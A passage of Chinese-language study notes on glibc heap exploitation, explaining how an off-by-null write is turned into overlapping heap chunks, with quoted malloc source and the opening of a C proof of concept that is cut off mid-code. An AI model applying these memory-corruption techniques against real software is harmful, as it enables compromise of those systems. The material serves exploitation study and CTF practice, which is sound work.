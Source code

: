 ```bash
getheap
chunk3 data begin 0x55555555b900 
chunk3 data end 0x55555555b940 
chunk1 data begin 0x55555555b8e0 
chunk1 data end 0x55555555b920 


```

##  Off by Null 转 Heap Overlapping
[高版本off-by-null堆攻击](https://xz.aliyun.com/t/15453?time__1311=GqjxnDuGGQi=0=D/D0ex2lCK4RtDgQ671oD)
[高版本off by null的总结](https://www.cnblogs.com/trunk/p/17308229.html)
### 控制prev_size和size低字节
off by null 比 off by one 条件要弱一些，这里写off by null 制造堆块重叠的方法。

如果是在输入的内容后面一个字节写 0 ，即可以控制下一个 chunk 的 prev_size 和 它的size 的 最低 1 字节写 0，那么可以采用下面的方法制造堆块重叠。

- 分配chunk1 chunk2 chunk3
- 释放 chunk1 然后写修改 chunk3 的 prev_size 和chunk2时offbynull修改chunk3 的 size的PREV_INUSE 位（顺序不能错，否则 chunk1 会与 chunk2 合并出错 此时会将chunk2给unlink，` nextinuse = inuse_bit_at_offset(nextchunk, nextsize);  if (!nextinuse) {
     unlink(av, nextchunk, bck, fwd);
   size += nextsize;`但unlink中存在检查当前要unlink的size，`  if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \malloc_printerr ("corrupted size vs. prev_size");` 过不了)，`  之后释放 chunk3 与 chunk1 合并，从而造成堆块重叠。

注意定义`TRIM_FASTBINS`才会将与topchunk相邻的fastbin先向低地址合并，再向topchunk合并（一般编译定义）
```c
 if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())

#if TRIM_FASTBINS
      /*
	If TRIM_FASTBINS set, don't place chunks
	bordering top into fastbins
      */
      && (chunk_at_offset(p, size) != av->top)
#endif
      ) {
```
#### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

size_t getheap()
{
    puts("getheap");
    size_t libc_addr=puts-0x79e60;
    size_t* mp_72=libc_addr+0x1f23c0;
    size_t heap=*mp_72;
    return heap;
}

int main()
{    
    char* chunkarray[0x10];
    //size_t heap=getheap();
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0xf8);
    }
    char* chunk1=malloc(0xf8);
```